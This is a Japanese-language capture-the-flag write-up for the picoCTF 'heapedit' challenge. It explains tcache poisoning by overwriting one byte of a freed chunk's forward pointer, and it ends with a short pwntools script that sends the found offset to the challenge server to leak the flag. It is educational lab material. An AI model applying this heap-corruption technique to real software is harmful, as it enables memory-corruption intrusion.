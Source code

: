 ## tl;dr

tcache poisoning

## プログラム

- FLAG 付きの malloc を 7 回 (A と呼ぶ)
- FLAG なしの malloc を 1 回 (B と呼ぶ)
- A を free
- B を free
- 任意のアドレス（入力）に任意の 1 バイト（入力）を代入
- malloc して、出力

malloc は全て 0x80 バイトです。

## 解法

さて、malloc というのは最後に free をしたものを返すため、何もしないと最後の malloc で返ってくるのは B です。

また、今回の場合は malloc サイズが小さいため tcache という仕組みの 双方向連結リスト (free list) に繋がれます。free list の様子を見てみましょう。

- 最初

```
bin -> 無
```

- free(A)

```
bin -> A
```

- free(B)

```
bin -> B -> A
```

**ここで、任意の 1 バイトを変えられる**

-  malloc

```
bin -> A
```

tcache bin も他の malloc chunk 同様に FD, BK で管理されている訳なので、その FD を書き換えて malloc をする時にこんな状態にすれば FLAG が出力されそうな気がしますね。

```
bin -> A
B -> A (関係ない)
```

B のアドレスの下位 1 バイトを 0 にすると FLAG が出るっぽいので、tcache bin の FD の下位 1 バイトまでの offset を探しましょう。

入力は最初に malloc したアドレスからの offset なので、tcache bin からそう遠くはないはずです。ローカルとリモートでは libc が違うので、offset は検討をつけてから全探索します。

結果、-5144 でした。

```python
from pwn import *

#p=process("./heapedit")
p=remote("mercury.picoctf.net",17612)
p.sendline(b"-5144")
p.sendline(b"\x00")
p.recvuntil(b"Value:")
print(p.recvall())
p.close()
```